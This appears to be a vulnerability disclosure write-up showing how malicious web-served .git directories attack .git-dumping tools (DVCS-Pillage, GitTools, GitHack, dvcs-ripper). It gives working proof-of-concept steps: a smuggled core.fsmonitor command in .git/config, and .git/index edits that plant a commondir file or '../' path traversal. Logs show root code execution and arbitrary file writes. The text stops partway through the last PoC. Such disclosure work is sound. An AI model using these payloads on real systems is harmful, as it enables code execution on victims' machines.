root@8d5dcf3ae139:/tmp/tmp.JsptoKCWL8# git init
Initialized empty Git repository in /tmp/tmp.JsptoKCWL8/.git/

root@8d5dcf3ae139:/tmp/tmp.JsptoKCWL8# touch zzzzzfoobar

root@8d5dcf3ae139:/tmp/tmp.JsptoKCWL8# git add zzzzzfoobar

root@8d5dcf3ae139:/tmp/tmp.JsptoKCWL8# git commit -m 'add zzzzzfoobar'
[main (root-commit) 2495873] add zzzzzfoobar
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 zzzzzfoobar

root@8d5dcf3ae139:/tmp/tmp.JsptoKCWL8# sed -i 's#zzzzzfoobar#.git/foobar#g' .git/index

root@8d5dcf3ae139:/tmp/tmp.JsptoKCWL8# git status
On branch main
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	renamed:    zzzzzfoobar -> .git/foobar

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    .git/foobar

Untracked files:
  (use "git add <file>..." to include in what will be committed)
	zzzzzfoobar

root@8d5dcf3ae139:/tmp/tmp.JsptoKCWL8# git ls-files --stage
100644 e69de29bb2d1d6434b8b29ae775ad8c2e48c5391 0	.git/foobar

root@8d5dcf3ae139:/tmp/tmp.JsptoKCWL8# ls .git/foobar
ls: cannot access '.git/foobar': No such file or directory

root@8d5dcf3ae139:/tmp/tmp.JsptoKCWL8# git checkout .git/foobar
Updated 1 path from the index

root@8d5dcf3ae139:/tmp/tmp.JsptoKCWL8# ls .git/foobar
.git/foobar
```

Note that I don't believe this is a vulnerability in Git. During operations such as `git clone` and `git pull`, my understanding is that a malicious remote is not able to modify a client's `.git/index` file to be able to cause such a file write to occur within `.git`. My understanding is that the generation of the `.git/index` file is guarded with controls that prevent entries with bad paths, such as `.git`. However, if `git clone` or `git pull` could be shown to provide such significant control over `.git/index`, it would be an RCE bug in Git.

Since we get to provide `.git/index` to `gitpillage.sh` ourselves, we can put an entry in the `index` file to cause Git to perform an arbitrary file write within the client's `.git` directory. However, we still can't overwrite `.git/config` due to the "I'll only download a file if it doesn't exist locally" check that is done.

Instead, we can create a file called `.git/commondir`. [The Git documentation says](https://git-scm.com/docs/gitrepository-layout#Documentation/gitrepository-layout.txt-commondir):

> commondir
>
> If this file exists, `$GIT_COMMON_DIR` (see `git[1]`) will be set to the path specified in this file if it is not explicitly set. If the specified path is relative, it is relative to $GIT_DIR. The repository with commondir is incomplete without the repository pointed by "commondir".

[`git[1]` says](https://git-scm.com/docs/git#Documentation/git.txt-codeGITCOMMONDIRcode):

> `GIT_COMMON_DIR`
>
> If this variable is set to a path, non-worktree files that are normally in `$GIT_DIR` will be taken from this path instead. Worktree-specific files such as HEAD or index are taken from `$GIT_DIR`. See `gitrepository-layout[5]` and `git-worktree[1]` for details. This variable has lower precedence than other path variables such as `GIT_INDEX_FILE`, `GIT_OBJECT_DIRECTORY`…​

If we cause `gitpillage.sh` to write the string `../.aaaa` to `commondir`, then `git` will use `.aaaa/` as the Git directory for much of what it craves, including the `config` file.

Our attack plan is thus:

1. Do `git init` to create a new Git repo as `.git`
2. Create an empty file called `zzzz` and commit it to the repo
3. Duplicate `.git/` as `.aaaa/`. Add a `core.fsmonitor` directive to `.aaaa/config`.
4. Commit `.aaaa` to the `.git` repo (noting that this is completely legal as we're not violating the rule regarding files named `.git` being committed to a repo)
5. Create a file named `xxxxxcommondir` with the contents `../.aaaa`. Commit it to the repo
6. Do a find-and-replace for the string `xxxxx` in `.git/index`, replacing it with the string `.git/`, which will cause the file created in step 4 to be written to `.git/commondir` upon checkout

The reason for step 2 is to to have a file with a filename that is lexically "last" in the `git ls-files` listing, to give `gitdumper.sh` something to check out after we've caused `.git/commondir` to be created. As a bonus, duplicating `.git` as `.aaaa` after committing this file gives the `.aaaa` repo some substance, which is something that a `GIT_COMMON_DIR` seems to need to have (otherwise Git gets cranky).

### evilpacket/DVCS-Pillage POC

Build a Docker image that contains `git`, a simple Git user configuration, `python3` (for serving files over HTTP), `wget` (Required by `gitpillage.sh`) and `DVCS-Pillage`:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y git python3 wget && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com" && \
    git clone https://github.com/evilpacket/DVCS-Pillage.git ~/dvcs-pillage

% sudo -g docker docker build --tag=justinsteven/dvcs-pillage .
[... SNIP ...]
Successfully built ac833b5d91b5
Successfully tagged justinsteven/dvcs-pillage:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/dvcs-pillage bash

root@1cc0e99e287c:/# git -C ~/dvcs-pillage/ log -n1 gitpillage.sh
commit 559c10990abe4181b5e77892c1c6cc4a4c98e34d
Author: ethicalhack3r <ryandewhurst@gmail.com>
Date:   Thu Aug 6 12:02:00 2015 +0200

    Ignore ssl errors
```

Create our malicious Git repo as described above:

```plain
root@1cc0e99e287c:/# cd $(mktemp -d)

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# git init
Initialized empty Git repository in /tmp/tmp.9L9m0Iytbh/.git/

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# touch zzzz

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# git add zzzz

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# git commit -m 'add zzzz'
[main (root-commit) 4665734] add zzzz
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 zzzz

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# cp -R .git .aaaa

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> .aaaa/config

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# cat .aaaa/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# echo '../.aaaa' > xxxxxcommondir

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# git add .aaaa/ xxxxxcommondir

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# git commit -m 'add .aaaa and xxxxxcommondir'
[main dc6d4e4] add .aaaa and xxxxxcommondir
 26 files changed, 812 insertions(+)
 create mode 100644 .aaaa/COMMIT_EDITMSG
 create mode 100644 .aaaa/HEAD
 create mode 100644 .aaaa/config
 create mode 100644 .aaaa/description
 create mode 100755 .aaaa/hooks/applypatch-msg.sample
 create mode 100755 .aaaa/hooks/commit-msg.sample
 create mode 100755 .aaaa/hooks/fsmonitor-watchman.sample
 create mode 100755 .aaaa/hooks/post-update.sample
 create mode 100755 .aaaa/hooks/pre-applypatch.sample
 create mode 100755 .aaaa/hooks/pre-commit.sample
 create mode 100755 .aaaa/hooks/pre-merge-commit.sample
 create mode 100755 .aaaa/hooks/pre-push.sample
 create mode 100755 .aaaa/hooks/pre-rebase.sample
 create mode 100755 .aaaa/hooks/pre-receive.sample
 create mode 100755 .aaaa/hooks/prepare-commit-msg.sample
 create mode 100755 .aaaa/hooks/push-to-checkout.sample
 create mode 100755 .aaaa/hooks/update.sample
 create mode 100644 .aaaa/index
 create mode 100644 .aaaa/info/exclude
 create mode 100644 .aaaa/logs/HEAD
 create mode 100644 .aaaa/logs/refs/heads/main
 create mode 100644 .aaaa/objects/46/65734124a9ca2b97edf8d2c5935781db90648b
 create mode 100644 .aaaa/objects/c7/18a7810cb085091e1d9d6dd1f42a1f176d6526
 create mode 100644 .aaaa/objects/e6/9de29bb2d1d6434b8b29ae775ad8c2e48c5391
 create mode 100644 .aaaa/refs/heads/main
 create mode 100644 xxxxxcommondir

root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# sed -i 's#xxxxx#.git/#g' .git/index
```

Serve the Git repo via HTTP:

```plain
root@1cc0e99e287c:/tmp/tmp.9L9m0Iytbh# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

Start a new shell within the Docker container. Observe that `/tmp/win` does not exist. Use `gitpillage.sh` to pillage the published repo and observe that `/tmp/win` now contains the results of our payload:

```plain
% sudo -g docker docker exec -ti 1cc0e99e287c bash

root@1cc0e99e287c:/# cd $(mktemp -d)

root@1cc0e99e287c:/tmp/tmp.Y2BBUS8LRC# cat /tmp/win
cat: /tmp/win: No such file or directory

root@1cc0e99e287c:/tmp/tmp.Y2BBUS8LRC# ~/dvcs-pillage/gitpillage.sh
Usage:
    /root/dvcs-pillage/gitpillage.sh protocol hostname/directory single_file
    (directory and single_file are optional)
Example:
    /root/dvcs-pillage/gitpillage.sh http www.example.com/images (would crawl http://example.com/images/.git/)
    /root/dvcs-pillage/gitpillage.sh https www.example.com (would crawl https://example.com/.git/)

root@1cc0e99e287c:/tmp/tmp.Y2BBUS8LRC# ~/dvcs-pillage/gitpillage.sh http 127.0.0.1:4444
Initialized empty Git repository in /tmp/tmp.Y2BBUS8LRC/127.0.0.1:4444/.git/
Getting refs/heads/main

[... SNIP ...]

About to make 27 requests to 127.0.0.1:4444; This could take a while
Do you want to continue? (y/n) y

[... SNIP ...]

Trying to checkout files
Updated 1 path from the index
Updated 1 path from the index
[... SNIP ...]
Updated 1 path from the index


#### Potentially Interesting Files ####


grep: ../pillage.regex: No such file or directory

root@1cc0e99e287c:/tmp/tmp.Y2BBUS8LRC# cat /tmp/win
Pwned as uid=0(root) gid=0(root) groups=0(root)
```

## internetwache/GitTools `gitdumper.sh` - Arbitrary File Write via `extractor.sh` or RCE via `git checkout`

* Version tested: [9f1820d](https://github.com/internetwache/GitTools/blob/9f1820d33e0051cdfc5572f8b24700bb2430f9df/Dumper/gitdumper.sh) on Linux
* Also tested: [7cac63a](https://github.com/internetwache/GitTools/blob/7cac63a2c141cdf2ab0f854e790ace3f430304f4/Dumper/gitdumper.sh) on Linux

Unpatched as of 2022-03-15.

[GitTools](https://github.com/internetwache/GitTools) contains several utilities relating to Git. [gitdumper.sh](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh) is a script for dumping a Git repository from a webserver and [extractor.sh](https://github.com/internetwache/GitTools/blob/master/Extractor/extractor.sh) is a script for extracting a potentially incomplete Git repo to produce the repo's contents.

`gitdumper.sh` works by doing the following:

1. It [downloads a set of standard Git directory files](https://github.com/internetwache/GitTools/blob/9f1820d33e0051cdfc5572f8b24700bb2430f9df/Dumper/gitdumper.sh#L67-L84) including `HEAD`, `index`, `config` etc.
2. For each file that it downloads, it [interrogates the file contents](https://github.com/internetwache/GitTools/blob/9f1820d33e0051cdfc5572f8b24700bb2430f9df/Dumper/gitdumper.sh#L125-L166) to identify more Git object hashes to download using `git cat-file` and `grep`

`git cat-file` does not trigger `core.fsmonitor`, and `gitdumper.sh` does not do its own checkout of the repo after pillaging it. The use of strict regular expressions seems like a sound defence against directory traversal during a file download. Thus there is no opportunity, as far as I can tell, to automatically trigger RCE or an arbitrary file write.

However, the output of `gitdumper.sh` is essentially a `.git/` directory only. A user can be expected to want to extract or check out the contents of the repo into a working tree to view the looted files. If the user uses GitTools' `extractor.sh` to do so then the attacker gets an arbitrary file write primitive, and if the user uses `git checkout` to do so then the attacker gets the arbitrary file write as well as arbitrary code execution.

### internetwache/GitTools POC

Build a Docker image that contains `git`, a simple Git user configuration, GitTools, its dependencies (`curl`, `git` and `strings`) and Python 3 for hosting a simple webserver:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y binutils curl git python3 && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com" && \
    git clone https://github.com/internetwache/GitTools.git ~/GitTools

% sudo -g docker docker build --tag=justinsteven/gittools --no-cache .
[... SNIP ...]
Successfully built 5f75b6e08d57
Successfully tagged justinsteven/gittools:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/gittools bash

root@c938730f5371:/# git -C ~/GitTools/ log -n1
commit 7cac63a2c141cdf2ab0f854e790ace3f430304f4 (HEAD -> master, origin/master, origin/HEAD)
Merge: 7f16fa0 bcf8697
Author: Sebastian Neef <github@gehaxelt.in>
Date:   Tue Feb 22 00:40:24 2022 +0100

    Merge pull request #49 from cyberknight777/master

    fixed requirements.txt
```

Create an new Git repo and add some data:

```plain
root@c938730f5371:~# cd $(mktemp -d)

root@c938730f5371:/tmp/tmp.vPjSpkm7da# git init
Initialized empty Git repository in /tmp/tmp.vPjSpkm7da/.git/

root@c938730f5371:/tmp/tmp.vPjSpkm7da# echo 'I am some data' >> data.txt

root@c938730f5371:/tmp/tmp.vPjSpkm7da# git add data.txt

root@c938730f5371:/tmp/tmp.vPjSpkm7da# git commit -m 'add data'
[main (root-commit) 65aa4c4] add data
 1 file changed, 1 insertion(+)
 create mode 100644 data.txt
```

Modify the repo's `.git/config` to contain a malicious `core.fsmonitor` value:

```plain
root@c938730f5371:/tmp/tmp.vPjSpkm7da# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> .git/config

root@c938730f5371:/tmp/tmp.vPjSpkm7da# cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Add a file named `../../../../../../../../../tmp/win2` to demonstrate the arbitrary file write. Do so by creating and staging for commit a file named `zzyzzyzzyzzyzzyzzyzzyzzyzzytmp/win2` and then hack the `.git/index` file to replace `zzy` with `../`. Git would normally refuse to clone and checkout a repo containing such a file, but since we control `index` (which will be looted by `gitdumper.sh`) we bypass Git's security controls on malicious filepaths being placed into what is normally a local trustworthy index file. Finally, commit the staged file.

```plain
root@c938730f5371:/tmp/tmp.vPjSpkm7da# mkdir zzyzzyzzyzzyzzyzzyzzyzzyzzytmp

root@c938730f5371:/tmp/tmp.vPjSpkm7da# echo 'Hello, world!' >> zzyzzyzzyzzyzzyzzyzzyzzyzzytmp/win2

root@c938730f5371:/tmp/tmp.vPjSpkm7da# git add zzyzzyzzyzzyzzyzzyzzyzzyzzytmp/

root@c938730f5371:/tmp/tmp.vPjSpkm7da# strings .git/index | grep zzy
#zzyzzyzzyzzyzzyzzyzzyzzyzzytmp/win2

root@c938730f5371:/tmp/tmp.vPjSpkm7da# sed -i 's#zzy#../#g' .git/index

root@c938730f5371:/tmp/tmp.vPjSpkm7da# strings .git/index | grep win2
#../../../../../../../../../tmp/win2

root@c938730f5371:/tmp/tmp.vPjSpkm7da# git status
On branch main
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	new file:   ../../../../../../../../../tmp/win2

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    ../../../../../../../../../tmp/win2

Untracked files:
  (use "git add <file>..." to include in what will be committed)
	zzyzzyzzyzzyzzyzzyzzyzzyzzytmp/

root@c938730f5371:/tmp/tmp.vPjSpkm7da# git commit -m 'add win2'
[main a1ea6c9] add win2
 1 file changed, 1 insertion(+)
 create mode 100644 ../../../../../../../../../tmp/win2
```

Serve the Git repo via HTTP:

```plain
root@c938730f5371:/tmp/tmp.vPjSpkm7da# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

Start a new shell within the Docker container. Use `gitdumper.sh` to pillage the published repo.

```plain
% sudo -g docker docker exec -ti c938730f5371 bash

root@c938730f5371:/# cd $(mktemp -d)

root@c938730f5371:/tmp/tmp.o50M2BS001# ~/GitTools/Dumper/gitdumper.sh
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] USAGE: http://target.tld/.git/ dest-dir [--git-dir=otherdir]
		--git-dir=otherdir		Change the git folder name. Default: .git
root@c938730f5371:/tmp/tmp.o50M2BS001# ~/GitTools/Dumper/gitdumper.sh http://127.0.0.1:4444/.git/ loot
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating loot/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[-] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[-] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/65/aa4c45dd8cfcb5c56c7a3ce4790ad8a63050e3
[+] Downloaded: objects/a1/ea6c9b398fed19b4287de6670b63638da322e5
[+] Downloaded: objects/91/f4b4485ddde64d98fe090ebeb3f5def9ef5ada
[+] Downloaded: objects/46/6beb67f99e73b84ec3df9ee89c9da12d7f7a7e
[+] Downloaded: objects/75/6f6ff7f8a15a8ce541b32bfe9477d321e693e8
[+] Downloaded: objects/6c/6c95196b4b1a759891012afae4d50457389f7b
[+] Downloaded: objects/75/d2fcc552b4a0f4d2d183be72fc18671700088b
[+] Downloaded: objects/59/538f39d68ce4b5672789c6abfc34b9dceb829e
[+] Downloaded: objects/6f/bd98495ad9e7a21fd5b76d44cddab30b76bc8c
[+] Downloaded: objects/bf/667f846359702ba66304339f963af5e541aa02
[+] Downloaded: objects/dc/d7b299e4d1fc83ef6ed272629467e7aa50a22b
[+] Downloaded: objects/64/7c65391a96e6282cc9a4f737e49926bfc7fc82
[+] Downloaded: objects/b1/64158dffdeb509f15e6ba90987d018aa3df145
[+] Downloaded: objects/5b/34d579597dc976e82c9ab8cd1c04b0232cf67d
[+] Downloaded: objects/8b/6f9093b4188cf05e4681a60d651eaf809c736e
[+] Downloaded: objects/af/5626b4a114abcb82d63db7c8082c3c4756e51b
```

Observe that `data.txt` does not exist within the context of the looted repo.

```plain
root@c938730f5371:/tmp/tmp.o50M2BS001# ls -la loot
total 12
drwxr-xr-x 3 root root 4096 Mar 16 11:28 .
drwx------ 3 root root 4096 Mar 16 11:28 ..
drwxr-xr-x 6 root root 4096 Mar 16 11:28 .git
```

Observe that `/tmp/win2` does not exist on the system. Use `extractor.sh` to extract the looted repo. Observe that this gives us `data.txt` and also gives us `/tmp/win2`, demonstrating the arbitrary file write.

```plain
root@c938730f5371:/tmp/tmp.o50M2BS001# cat /tmp/win2
cat: /tmp/win2: No such file or directory

root@c938730f5371:/tmp/tmp.o50M2BS001# ~/GitTools/Extractor/extractor.sh
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[*] USAGE: extractor.sh GIT-DIR DEST-DIR

root@c938730f5371:/tmp/tmp.o50M2BS001# ~/GitTools/Extractor/extractor.sh loot extracted
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: a1ea6c9b398fed19b4287de6670b63638da322e5
[+] Found file: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/data.txt
[+] Found folder: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/..
[+] Found folder: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/../..
[+] Found folder: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/../../..
[+] Found folder: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/../../../..
[+] Found folder: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/../../../../..
[+] Found folder: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/../../../../../..
[+] Found folder: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/../../../../../../..
[+] Found folder: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/../../../../../../../..
[+] Found folder: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/../../../../../../../../..
[+] Found folder: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/../../../../../../../../../tmp
[+] Found file: /tmp/tmp.o50M2BS001/extracted/0-a1ea6c9b398fed19b4287de6670b63638da322e5/../../../../../../../../../tmp/win2
[+] Found commit: 65aa4c45dd8cfcb5c56c7a3ce4790ad8a63050e3
[+] Found file: /tmp/tmp.o50M2BS001/extracted/1-65aa4c45dd8cfcb5c56c7a3ce4790ad8a63050e3/data.txt

root@c938730f5371:/tmp/tmp.o50M2BS001# cat extracted/1-65aa4c45dd8cfcb5c56c7a3ce4790ad8a63050e3/data.txt
I am some data

root@c938730f5371:/tmp/tmp.o50M2BS001# cat /tmp/win2
Hello, world!
```

Remove `/tmp/win2`. Observe that `/tmp/win*` does not exist. Rather than using `extractor.sh`, switch into the context of the looted repo and do `git checkout .` to populate the working tree. Observe that this gives us `data.txt` in the context of the looted repo, as well as `/tmp/win` (demonstrating the RCE) and `/tmp/win2`) (demonstrating a bonus arbitrary file write).

```plain
root@c938730f5371:/tmp/tmp.o50M2BS001# rm /tmp/win2

root@c938730f5371:/tmp/tmp.o50M2BS001# cat /tmp/win*
cat: '/tmp/win*': No such file or directory

root@c938730f5371:/tmp/tmp.o50M2BS001# cd loot/

root@c938730f5371:/tmp/tmp.o50M2BS001/loot# ls -la
total 12
drwxr-xr-x 3 root root 4096 Mar 16 11:28 .
drwx------ 4 root root 4096 Mar 16 11:30 ..
drwxr-xr-x 6 root root 4096 Mar 16 11:28 .git

root@c938730f5371:/tmp/tmp.o50M2BS001/loot# git checkout .
Updated 2 paths from the index

root@c938730f5371:/tmp/tmp.o50M2BS001/loot# cat data.txt
I am some data

root@c938730f5371:/tmp/tmp.o50M2BS001/loot# cat /tmp/win
Pwned as uid=0(root) gid=0(root) groups=0(root)

root@c938730f5371:/tmp/tmp.o50M2BS001/loot# cat /tmp/win2
Hello, world!
```

## lijiejie/GitHack - Arbitrary File Write

Version tested: [1fed62c](https://github.com/lijiejie/GitHack/blob/1fed62c9c3c982edc3d4de363c5b42694da56ccf/GitHack.py) on Linux

Unpatched as of 2022-03-15.

<https://github.com/lijiejie/GitHack> says:

> GitHack is a .git folder disclosure exploit.
>
> It rebuild source code from .git folder while keep directory structure unchanged.

It is unique in that it does not depend on the `git` utility. It instead uses [gin](https://github.com/sbp/gin), a Git `index` file parser, to directly parse the `.git/index` file and download the required objects.

It has a directory traversal vulnerability, allowing a malicious webserver to write a file to an arbitrary location on the attacker's filesystem.

### lijiejie/GitHack POC

Build a Docker image that contains `git`, a simple Git user configuration and `GitHack`. Note that we need to use a `python:2` Docker image due to `GitHack` being a Python 2 script.

```plain
% cat Dockerfile
FROM python:2

RUN \
    apt-get update && \
    apt-get install -y git && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com" && \
    git clone https://github.com/lijiejie/GitHack.git ~/GitHack

% sudo -g docker docker build --tag=justinsteven/githack .
[... SNIP ...]
Successfully built 76d9740aea48
Successfully tagged justinsteven/githack:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/githack bash

root@8e82bd024d67:/# git -C ~/GitHack/ log -n1
commit 1fed62c9c3c982edc3d4de363c5b42694da56ccf (HEAD ->
 master, origin/master, origin/HEAD
)
Merge: ed15f2d fef2013
Author: lijiejie <my@lijiejie.com>
Date:   Tue Jul 16 15:07:15 2019 +0800

    Merge pull request #9 from ldbfpiaoran/patch-1
    
    解决ssl通过ip访问不匹配的问题
```

Create an empty Git repo:

```plain
root@8e82bd024d67:~# cd $(mktemp -d)

root@8e82bd024d67:/tmp/tmp.tLVLVwqkB1# git init
Initialized empty Git repository in /tmp/tmp.tLVLVwqkB1/.git/
```

Add and commit a file named `zzyzzyzzyzzyzzyzzyzzyzzyzzytmp/win`:

```plain
root@8e82bd024d67:/tmp/tmp.tLVLVwqkB1# mkdir zzyzzyzzyzzyzzyzzyzzyzzyzzytmp

root@8e82bd024d67:/tmp/tmp.tLVLVwqkB1# echo 'Hello, world!' >> zzyzzyzzyzzyzzyzzyzzyzzyzzytmp/win

root@8e82bd024d67:/tmp/tmp.tLVLVwqkB1# git add zzyzzyzzyzzyzzyzzyzzyzzyzzytmp/

root@8e82bd024d67:/tmp/tmp.tLVLVwqkB1# git commit -m 'add win'
[master (root-commit) 2ff22ac] add win
 1 file changed, 1 insertion(+)
 create mode 100644 zzyzzyzzyzzyzzyzzyzzyzzyzzytmp/win
```

Modify the repo's `.git/index` file, replacing all occurrences of the string `zzy` with `../`:

```plain
root@8e82bd024d67:/tmp/tmp.tLVLVwqkB1# strings .git/index | grep win
"zzyzzyzzyzzyzzyzzyzzyzzyzzytmp/win

root@8e82bd024d67:/tmp/tmp.tLVLVwqkB1# sed -i 's#zzy#../#g' .git/index

root@8e82bd024d67:/tmp/tmp.tLVLVwqkB1# strings .git/index | grep win
"../../../../../../../../../tmp/win
```

Serve the Git repo via HTTP:

```plain
root@8e82bd024d67:/tmp/tmp.tLVLVwqkB1# python2 -m SimpleHTTPServer 4444
Serving HTTP on 0.0.0.0 port 4444 ...
```

Start a new shell within the Docker container. Observe that `/tmp/win` does not exist. Use `GitHack.py` to pillage the published repo. Observe that `/tmp/win` now exists.

```plain
% sudo -g docker docker exec -ti 8e82bd024d67 bash

root@8e82bd024d67:/# cd $(mktemp -d)

root@8e82bd024d67:/tmp/tmp.19QVgQ11Xb# cat /tmp/win
cat: /tmp/win: No such file or directory

root@8e82bd024d67:/tmp/tmp.19QVgQ11Xb# python2 ~/GitHack/GitHack.py

A `.git` folder disclosure exploit. By LiJieJie

Usage: GitHack.py http://www.target.com/.git/

bug-report: my[at]lijiejie.com (http://www.lijiejie.com)

root@8e82bd024d67:/tmp/tmp.19QVgQ11Xb# python2 ~/GitHack/GitHack.py http://127.0.0.1:4444/.git/
[+] Download and parse index file ...
../../../../../../../../../tmp/win
[OK] ../../../../../../../../../tmp/win

root@8e82bd024d67:/tmp/tmp.19QVgQ11Xb# cat /tmp/win
Hello, world!
```

## kost/dvcs-ripper - RCE

Version tested: [2c1bbc6](https://github.com/kost/dvcs-ripper/blob/2c1bbc669549e64c096107f0586d748e43156a1e/rip-git.pl) on Linux

Unpatched as of 2022-03-15.

<https://github.com/kost/dvcs-ripper> says:

> Rip web accessible (distributed) version control systems: SVN, GIT, Mercurial/hg, bzr, ...
>
> It can rip repositories even when directory browsing is turned off.

It downloads files from the remote `.git` directory, including the `.git/config`, file and then does `git checkout`. It can be made to execute arbitrary commands using `core.fsmonitor`.

### kost/dvcs-ripper POC

Build a Docker image that contains `git`, a simple Git user configuration, `dvcs-ripper`, its various dependencies (`perl` and a bunch of libraries) and Python 3 for hosting a simple webserver

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y \
        git \
        python3 \
        # dvcs-ripper dependencies per README.md
        libclass-dbi-perl \
        libdbd-sqlite3-perl \
        libio-all-lwp-perl \
        libio-socket-ssl-perl \
        perl \
    && git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com" && \
    git clone https://github.com/kost/dvcs-ripper.git ~/dvcs-ripper

% sudo -g docker docker build --tag=justinsteven/dvcsripper .
[... SNIP ...]
Successfully built 60ce35a6a483
Successfully tagged justinsteven/dvcsripper:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/dvcsripper bash

root@626b1fc8e12d:/# git -C ~/dvcs-ripper/ log -n1
commit 2c1bbc669549e64c096107f0586d748e43156a1e (HEAD -> master, origin/master, origin/HEAD)
Merge: 0672a34 b41acde
Author: kost <vlatko.kosturjak@gmail.com>
Date:   Mon Aug 17 18:38:26 2020 +0200

    Merge pull request #26 from meme-lord/master
    
    Fixed issue #18 (broken regex)
```

Create an empty Git repo:

```plain
root@626b1fc8e12d:/# cd $(mktemp -d)

root@626b1fc8e12d:/tmp/tmp.YFwvtNlMc5# git init
Initialized empty Git repository in /tmp/tmp.YFwvtNlMc5/.git/
```

Create a branch called `master` (else dvcs-ripper [breaks](https://github.com/kost/dvcs-ripper/blob/2c1bbc669549e64c096107f0586d748e43156a1e/rip-git.pl#L21)). Add and commit a file.

```plain
root@626b1fc8e12d:/tmp/tmp.YFwvtNlMc5# git checkout -b master
Switched to a new branch 'master'

root@626b1fc8e12d:/tmp/tmp.YFwvtNlMc5# echo 'Hello, world!' >> data.txt

root@626b1fc8e12d:/tmp/tmp.YFwvtNlMc5# git add data.txt

root@626b1fc8e12d:/tmp/tmp.YFwvtNlMc5# git commit -m 'add data.txt'
[master (root-commit) 9a605d2] add data.txt
 1 file changed, 1 insertion(+)
 create mode 100644 data.txt
```

Modify the repo's `.git/config` to contain a malicious `core.fsmonitor` value:

```plain
